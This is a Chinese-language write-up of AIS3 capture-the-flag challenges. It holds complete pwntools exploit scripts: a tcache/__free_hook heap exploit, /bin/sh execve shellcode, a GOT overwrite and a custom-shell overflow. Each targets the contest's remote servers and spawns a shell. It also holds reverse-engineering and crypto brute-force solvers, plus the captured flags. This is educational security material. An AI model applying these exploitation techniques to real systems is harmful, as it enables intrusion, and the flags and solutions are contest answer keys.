    c.sendlineafter("Length of command name:", str(cmd_len))
    c.sendlineafter("Command name:", cmd)
    c.sendlineafter("Length of command:", str(script_len))
    c.sendlineafter("Command:", script)

    c.sendlineafter("$", "run " + cmd)


record(10,10,0x500, "A")
record(10,10,0x500, "b")
delMem(0)
delMem(1)
telescope(0)


# leak bin
c.recvuntil("\n") # drop
heap_bin = c.recvuntil("\x20")[:-1] + b'\0\0'
assert(len(heap_bin) == 8)
heap_bin = u64(heap_bin)
tcache0x30_bin = heap_bin + (0x7fa11b7d3069-0x7fa11b7c6be0)
libc_base = heap_bin - (0x7f9a4a8e3be0 - 0x00007f9a4a6f8000)
malloc_hook = libc.symbols['__malloc_hook'] + libc_base
free_hook = libc.symbols['__free_hook'] + libc_base
system_addr = libc.symbols['system'] + libc_base
print(hex(heap_bin))
print(hex(tcache0x30_bin))
print(hex(libc_base))
print(hex(malloc_hook))


# fill tcache
for i in range(7):
    record(10,10,0x20, "C")

for i in range(2,9):
    delMem(i)

# leak heap base
telescope(6)
c.recvuntil("\n") # drop
heap_base = c.recvuntil("\x20")[:-1] + b'\0\0'
assert(len(heap_base) == 8)
heap_base = u64(heap_base) & 0x0000fffffffff000
print(hex(heap_base))


# fastbin loop FILO
record(10,10,0x40, '123')

delMem(6)
delMem(8)

#target_malloc_address = tcache0x30_bin

record(10,10,0x20, "/bin/sh")
record(10,10,0x20, "/bin/sh")
record(10,10,0x20, "/bin/sh")

record_raw(10,10,0x20, p64(free_hook-0x10) +b'\n')
record(10,10,0x20, "/bin/sh")

record(10,10,0x40, "/bin/sh")


# hook
adjust(15, 0xaaa, system_addr)
delMem(0)

# prepare double free
def setTecaheKey(index, key):
    adjust(index, key, 0)


c.interactive()
c.close()
```

```
AIS3{345y_h34p_345y_l1f3}
```

## noper (solved)

```
Canary                        : ✓
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

看到沒有開 nx ，並且為 64 bit

這題沒有初始化種子碼，因此是猜的出 code 的位置的，因此可以以寫出小程式找出覆蓋 nop 的位置

solveNop.c

```
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
  int i;
  int i_1;
  int nops[10];
  char code[64];
  int randVaue;
  unsigned int uVar1;

  while (i < 10) {
    randVaue = rand();
    uVar1 = (unsigned int)(randVaue >> 0x1f) >> 0x1a;
    nops[i] = (randVaue + uVar1 & 0x3f) - uVar1;
    i = i + 1;
  }

  // show
  i_1 = 0;
  while (i_1 < 10) {
    printf("%d\n", nops[i_1]);
    i_1 = i_1 + 1;
  }

  return 0;
}
```

再把上面的程式輸出在整理一下即可

``` bash
gcc solveNop.c;./a.out | sort -V > tmp ;cat tmp
```

列出

```
6
10
13
17
39
41
41
44
51
63
```

再來寫一個編碼器就可以了，這裡只是把 shellcraft 的 opcode 嘗試避開寫入 nop 的位置，來避免 shellcode 異常

### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib
import pickle

debug = 0

c = 0
pwn_file = "./noper"
elf = ELF(pwn_file)
#libc = ELF('libc-2.31.so')

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:
    c = process(pwn_file)
    elf_path = c.cwd + pwn_file.strip('.')
    gdbcmd = '''
    set $elf={}
    b *$elf+0x1327
    #b *$elf+0x1307

    '''.format(hex(c.libs()[elf_path]))
    gdb.attach(c, gdbscript=gdbcmd)
else:
    c = remote('quiz.ais3.org', 5002)


nops = [int(x) for x in """6
10
13
17
39
41
41
44
51
63""".split('\n') ]

#sc_org = [ asm(x) for x in shellcraft.sh().split('\n') if "/*" not in x ]
sc_org = """
  xor rsi,rsi
  push rsi
  mov rdi,0x68732f2f6e69622f
  push rdi
  push rsp
  pop rdi
  push 59
  pop rax
  cdq
  syscall
"""

if debug == 1:
    sc_org = [ asm(x) for x in sc_org.split('\n')  ]
    with open('shellcode', 'wb') as f:
        pickle.dump(sc_org, f)
else:
    with open('shellcode', 'rb') as f:
        sc_org = pickle.load(f)

print(shellcraft.sh())
print(nops)
print(sc_org)


sc_send = b''
while sc_org:
    opcode = sc_org.pop(0)
    print(opcode)
    while nops and nops[0] < len(sc_send + opcode):
        while len(sc_send) - 1 <= nops[0]:
            sc_send += b'\x90'
        nops.pop(0)

    sc_send += opcode
print(sc_send)
print(len(sc_send))
assert(len(sc_send) < 64)

c.sendlineafter('Give me some code:', sc_send)

c.interactive()
c.close()
```

```
AIS3{nOp_noOp_NOoop!!!}
```

## Write Me (solved)

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

沒有開 ple ，可以知道 elf 的固定位置。

這題似乎給一個任意寫入，並且把 sacnf 寫入 0 了，這樣子沒辦法使用 scanf 第二次，也沒辦法修改，並且而一開始 systemgot 被寫 0 所以要另外重新填寫位置

由於 got 在還沒解決的時候，會指向特定地址解決，或許把 system 改成該地址就可以 getshell



 ### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib

debug = 0

c = 0
pwn_file = "./gotplt"
elf = ELF(pwn_file)
libc = ELF('libc-2.31.so')

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:
    c = process(pwn_file)
    gdb.attach(c, gdbscript='')
else:
    c = remote('quiz.ais3.org', 10102)


space = 0x0000000000405000 - 0x100
systemgot = 0x404028
scanfgot = 0x404040

c.sendlineafter('Address:', str(systemgot))
c.sendlineafter('Value:', str(0x401050))

c.interactive()
c.close()

```

```
AIS3{Y0u_know_h0w_1@2y_b1nd1ng_w@rking}
```

## AIS3 Shell (solved)

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

由於有程式碼，可以直接編譯 asan 來抓漏洞

``` bash
gcc -g ais3shell.c  -fsanitize=address
```

可以抓到 heap overflow ，不過懷疑是 one null byte

程式好像有自己的記憶體池，程式沒有 free，不過程式似乎沒有檢查越界，因此可以觸發越界 `MemAlloc()` ，而負數傳入之後，size_t 轉換可以幾乎無窮大的數值，不過會受到 `% 0x100` 的限制 ，或許可以破壞原始的 shell，這裡需要找到一個數值，`read_str()` 當中如果 null buffer 會觸發 assert 而停止。

想辦法第二次 overflow 後蓋寫先前定義的 commend ，下面是依序 `MemAlloc()` 時列出 heap chunk 的位置，代表有可能在之後蓋寫到先前的數值。

1. 0x000055e4c74cc2a0 cmd name

2. 0x000055e4c74d06a0 cmd script

3. 0x000055e4c74cf490 overflow cmd name

如果成功蓋寫， run command 之後就可以看到 command not found



一旦疊到之後就可以嘗試找到正確的 offset 就可以完成 exploit

### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib
import pickle

debug = 0

c = 0
pwn_file = "./ais3shell"
elf = ELF(pwn_file)
#libc = ELF('libc-2.31.so')

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:
    c = process(pwn_file)
    elf_path = c.cwd + pwn_file.strip('.')
    gdbcmd = '''
    set $elf={}
    #b *$elf+0xbfc
    '''.format(hex(c.libs()[elf_path]))
    gdb.attach(c, gdbscript=gdbcmd)
else:
    c = remote('quiz.ais3.org', 10103)


def define(cmd_len, cmd, script_len, script):
    c.sendlineafter("$", "define")
    c.sendlineafter("Length of command name:", str(cmd_len))
    c.sendlineafter("Command name:", cmd)
    c.sendlineafter("Length of command:", str(script_len))
    c.sendlineafter("Command:", script)

def runCmd(cmd):
    c.sendlineafter("$", "run " + cmd)

define(3, 'sc', 3, 'ls')
runCmd('sc')

define(-0x1000, 'ls' + 'l'*(0x1210 + 0x1210 - 0x450 - 3522) + 'sh' , 3 ,'ls')
runCmd('sc')

c.interactive()
c.close()
```

```
AIS3{0hh_H0w_do_you_ch@ng3_my_comm4nd}
```


# rev


## 🐰 Peekora 🥒 (solved)

一開始下載 pickle 檔案，可以看到裡面

- str 會呼叫 `__eq__`
- List 會呼叫 `__getitem__`
- 可以觀察到 Mark `(` 和 Reduce `R` 一定成對

opcode 可以參考 https://github.com/python/cpython/blob/main/Lib/pickle.py

觀察 pickle 的內容 ，可以轉換成 bytecode

```bash
python3 -m pickletools flag_checker.pkl
```

一開始的 exit 似乎會阻擋程式執行，可直接改成 print，

改成 print  之後，執行會看到許多空行，代表錯誤的 char ，這樣就可以透過爆破 一個個 byte 了，空行越少代表越正確。

並且 checker 只有檢查到 [14] 所以後面的四個可以不用管

### exploit

solve_sub.py ，當中 patched.pkl 只是把 exit patched 成 print

``` python
#!/usr/bin/env python
import pickle

#f=open('flag_checker.pkl','rb')
f=open('patched.pkl','rb')
data=pickle.load(f)
print(data)
```

solve.py 這邊用來找出每次產生最少換行的字元。

``` python
#!/usr/bin/env python
import string
import subprocess

tmpflag = list('AIS3{asssssssssssaa}')
start = 5
end = 18
tmpflag[start] = 'b'
tmpflag[end] = 'e'
print(''.join(tmpflag))

def runAndGetLen(command):
    return len(subprocess.check_output(command, shell=True, text=True))

for i in range(start, end + 1):
    print(i)
    minlen = 10000
    min_char = '&'
    for c in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+,-./:;?[]^_ ':
        tmpflag[i] = c
        command = "echo '{}'|python3 solve_sub.py".format(''.join(tmpflag))
        getLen = runAndGetLen(command)

        if minlen > getLen:
            min_char = c
            minlen = getLen

    tmpflag[i] = min_char
    print(''.join(tmpflag))
```

```
AIS3{dAmwjzphIj0000}
```



# crypto

## Microchip (solved)

可以看到 data 每 4 個 bytes 會和固定的 key 進行運算

然後一開始可以嘗試先撞 AIS3 找出 key 值，每個 key 用 96 區分，之後可以爆出 key 為 `9653253`再來一個個 byte 慢慢爆破就可以了，下面先嘗試猜測 key。

``` python
#!/usr/bin/env python

def track(name, id):

    if len(name) % 4 == 0 :
        padded = name + "4444"
    elif len(name) % 4 == 1 :
        padded = name + "333"
    elif len(name) % 4 == 2 :
        padded = name + "22"
    elif len(name) % 4 == 3 :
        padded = name + "1"

    keys = list()
    temp = id
    for i in range(4) :
        keys.append(temp % 96)
        temp = int(temp // 96)

    result = ""
    for i in range(0, len(padded), 4) :

        nums = list()
        for j in range(4) :
            num = ord(padded[i + j]) - 32
            num = (num + keys[j]) % 96
            nums.append(num + 32)

        result += chr(nums[3])
        result += chr(nums[2])
        result += chr(nums[1])
        result += chr(nums[0])

    return result


target = '=Js&'
current_key = 0
count = 0

for i in range(3, 0 -1, -1):
    name = 'AIS3{'.strip()
    for keyPart in range(0, 96):
        id = current_key + keyPart * (96 ** count)
        result = track(name, id)[0:4]

        if list(result)[i] == list(target)[i]:
                """
                if count == 3:
                result2 = track('{', id)[0:4]
                print(result2)
                if list(result2)[i] != ';' :
                    continue
                """
                current_key += keyPart * (96 ** count)
                print('found', count,keyPart * (96 ** count))

    count += 1
    print(current_key)
    print(i)
```

要注意的是內文會每四個反轉，這也就是為什麼 output 的 `{`在第八個的原因，再來盡量注意 offset 就可以解開

``` python
#!/usr/bin/env python

def track(name, id):

    if len(name) % 4 == 0 :
        padded = name + "4444"
    elif len(name) % 4 == 1 :
        padded = name + "333"
    elif len(name) % 4 == 2 :
        padded = name + "22"
    elif len(name) % 4 == 3 :
        padded = name + "1"

    keys = list()
    temp = id
    for i in range(4) :
        keys.append(temp % 96)
        temp = int(temp // 96)

    result = ""
    for i in range(0, len(padded), 4) :

        nums = list()
        for j in range(4) :
            num = ord(padded[i + j]) - 32
            num = (num + keys[j]) % 96
            nums.append(num + 32)

        result += chr(nums[3])
        result += chr(nums[2])
        result += chr(nums[1])
        result += chr(nums[0])

    return result


key = 9653253
target = list("=Js&;*A`odZHi'>D=Js&#i-DYf>Uy'yuyfyu<)Gu")
current_flag = "AIS3{"
current_flag = list("")

for i in range(len(current_flag), len(target), 4):
    current_flag += ['0'] * 4
    print(i, ''.join(current_flag))
    count = 0

    for j in range(3, 0 -1, -1):
        #print(i+j, i + count)
        found = False
        for c in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&{}*+,-./:;?[]^_ ':
            current_flag[i+j] = c
            result = list(track(''.join(current_flag), key))
            #print(result, target[i + count], result[i + count])
            if result[i + count] == target[i + count]:
                found = True
                break

        if not found:
            print(i, 'error not found')
        count += 1
        print(i, ''.join((current_flag)))
```

```
AIS3{w31c0me_t0_AIS3_cryptoO0O0o0Ooo0}
```


# 未解決

## Microcheese crypto (未解決)

這題簡單觀看 save 和 load 的程式碼，可以發現他給的是旗子數量和一個校驗碼，也因此基本思路就是使用最有利的存擋並且算出正確的校驗碼


而這個 hash 會根據每次不同開啟而改變，並且 self.secret 似乎只是簡單疊加上去，看起來很像 feistel ，可是另外一半被丟掉了

## pokemon (未解決)

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```


``` bash
strings pokemon | grep 'flag'
```


後來有公開原始碼，開個 asan 下去檢測發現

進入戰鬥畫面或  3. pokemon 有 segmentation 選擇 0 的時候，似乎其他選單也有機會觸發

- pokedex.c:228
- pokedex.c:420

 --------Prop Information-------- (backpack) 選 0 或選 5 有 heap overflow

- /pokedex.c:404 讀取錯誤地址，和 heap buffer overflow

Fight 的 Expected damage 可以觸發 stack buffer overflow ，似乎可以輸入 32 個字元，不過看了原始碼應該屬於 null byte，如果用除錯器可以跑去 375 (原始 binary，自己編譯為 374)

- pokedex.c:367
- pokedex.c:374  pokemon->skillAttack(tmpPkm, monster);
- pokedex.c countBytes 的*(damage + damageIdx) = curVal & 0xff; 如果把 367 改成 31 的話 asan 可以找到此問題

分析看看這幾個點能不能構造 exploit primitive


countBytes() 看起來像把 long 寫入 damage 裡面


key list




幾個需要注意的

- puts(congBanner);
- puts(pokemon->icon);


## TheSecretLock (未解決)

https://github.com/GetMyle/hex2bin

先轉成 binary 用 cutter r2 可以查到架構 avr，一開始先找到 entry

或 avr 工具，後者可以套用到 avr-gdb，前者不行，不過丟到 ghidra 和 cutter 沒辦法分析，需要透過前者用 cutter 分析

```bash
avr-objcopy -I ihex -O elf32-avr task.hex task.elf
```

根據圖片看起來像 arduino，先安裝 simavr ，根據機型查詢架構 atmega328 ?

``` bash
simavr -m atmega328 -f 10000 task.hex -g
```

如果 simavr 有問題可以用 qemu

``` bash
qemu-system-avr -machine uno -device loader,file=task.bin,addr=0,force-raw=on -s -S
```

可以 觀察 global_callgraph，由於 string 的 xref 找不到因此要 watch point，這裡可能要用 qemu 才有辦法使用

```
# Your password...
rwatch *0x000042e4
rwatch *0x00004dda
```

可以看到斷在 `0x000000de` 之後繼續執行卡在 `0x00000444` 這裡猜是某種輸入

```
#0  0x00000468 in ?? ()
#1  0x000004b8 in ?? ()
#2  0x00000000 in ?? ()
```

直接跳到 `0x000004ca` 試試看

```
# Hacker go away!
rwatch *0x00004318

# Welcome, admin!
rwatch *0x000042f7

# AIS3{<password>}
rwatch *0x00004307

# 369S2580147C
rwatch *0x4283
rwatch *0x4d67

# ____369S2580147C (_ IS SPACE)
rwatch *0x00004d63
rwatch *0x0000427f


# Current:
rwatch *0x00004ded

# ">"
rwatch *0x00004deb


b *0x000004b2
set $pc=0x000004e2
```

可以發現 `pc=0xde` 似乎和複製有關，r0 開始複製內容



avr 一些 reg ，或許該從這邊下手，也許是在複製的位置？

```
# X
x ($r27 <<8)|$r26
# Y
x ($r29 <<8)|$r28
# Z
x ($r31 <<8)|$r30
```

也可以透過這個特徵來找 xref，在 cutter 搜尋 ldi r31 r29 r27 如

```
ldi r31, 0x42
```

例如 You win! 在 0x4df7 就找 0x4d

再來 button.jpg 的提示很重要，string `369S2580147C` 或許是某種 mapping?




fcn_0000448c 和 fcn_000039fe 看起來像 巢狀結構，比較




---

先找尋被複製的字串

```
find 0x0,0x8000-0x8, "Your password..."
find 0x0,0x8000-0x8, "AIS3{<password>}"

find 0x0,0x8000-0x8, "369S2580147C"
```


## Piano (未解決)

不知道 flag 放在哪

有 dll 和 exe 

attach 之後，發現點擊按鈕都會產生 thread 與 wdmaud


## COLORS (未解決)

很明顯有混淆

關鍵可能在

http://quiz.ais3.org:8888/encode.js

可以透過工具http://jsnice.org/

不過還是透過肉眼看比較好理解程式碼

大多數把 getArrayData(0x1d1) 直接拿去 js 跑就可以以解開


上下下下左右左右ba

膩的差不多可以顯示這個，不過也可以直接列出來，不過 hint. 會不明顯，左上角開始可以輸入東西



測試後可以發現是修改過的 base64


把 encode 函數提取出來之後，就可以透過暴力猜

``` js
let _0x9f530c=(_0xcc032b,_0x2a8089,_0x244c3a)=>_0x244c3a,_0x1fdafa=_0x29e3ab=>document[_0x1cd51f(0x1e2)](_0x1cd51f(0x1cc))['innerHTML']=_0xce93(_0x29e3ab);

const _0x1cd51f=_0x4ebd,_0x54579e=_0x1cd51f(0x1d8),_0x78ed5a=_0x1cd51f(0x1ca),_0x24fcac=_0x1cd51f(0x1d4),_0x2a3765=0x8,_0x317b6e=0xa;let _0x1e21d9,_0x179193=0x0;
function _0xce93(_0x1b497a){const _0x9fe181=_0x1cd51f;if(!_0x1b497a[_0x9fe181(0x1d0)])return'';let _0x4d62de='',_0x23f867='',_0x5395cb=0x0;for(let _0x6e40b4=0x0;_0x6e40b4<_0x1b497a[_0x9fe181(0x1d0)];_0x6e40b4++)_0x4d62de+=_0x1b497a[_0x9fe181(0x1dc)](_0x6e40b4)['toString'](0x2)[_0x9fe181(0x1c6)](0x8,'0');_0x5395cb=_0x4d62de[_0x9fe181(0x1d0)]%_0x317b6e/0x2-0x1;if(_0x5395cb!=-0x1)_0x4d62de+='0'[_0x9fe181(0x1c8)](_0x317b6e-_0x4d62de[_0x9fe181(0x1d0)]%_0x317b6e);_0x4d62de=_0x4d62de[_0x9fe181(0x1e4)](/(.{1,10})/g);for(let _0x13c6bb of _0x4d62de){let _0x192141=parseInt(_0x13c6bb,0x2);_0x23f867+=_0x9f530c(_0x192141>>0x6&0x7,_0x192141>>0x9,atob(_0x24fcac)[_0x192141&0x3f]);}for(;_0x5395cb>0x0;_0x5395cb--){_0x23f867+=_0x9f530c(_0x5395cb%_0x2a3765,0x0,'=');}return _0x23f867;}

_0xce93("AIS3")
```

可以一次看 4 個 byte 並且嘗試爆破正確結果出來，由於空間太大，沒辦法存來結果，因此

```js
char_set = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!\'()*+,-./?@_{} ';
target = ['BgiJ', '6\w1', 'Aj\1', 'guik', 'l7xi', 'XKIh', 'XKil', '6fo6', '5Kn8', '7B-8', 'warz', 'K==='];

function find(ans) {
  if (ans.length < 5) {
    for (var j = 0; j < char_set.length; j++) {
        if (ans.length == 0)
           console.log(ans + char_set[j]);
            
        solve = find(ans + char_set[j])
        if (solve != null)
     			return solve;    
    }
  } 

	var tmp = _0xce93(ans);
  for (var i = 0; i < target.length; i++) {
  	if (tmp == target[i]) {
 			console.log(tmp, ans)
    }
  }
 
}


console.log(find(''));

```

數量很怪，有很多組合

target = ['BgiJ', '6\w1', 'Aj\1', 'guik', 'l7xi', 'XKIh', 'XKil', '6fo6', '5Kn8', '7B-8', 'warz', 'K==='];

回到觀察原始碼`_0xce93` 的部分

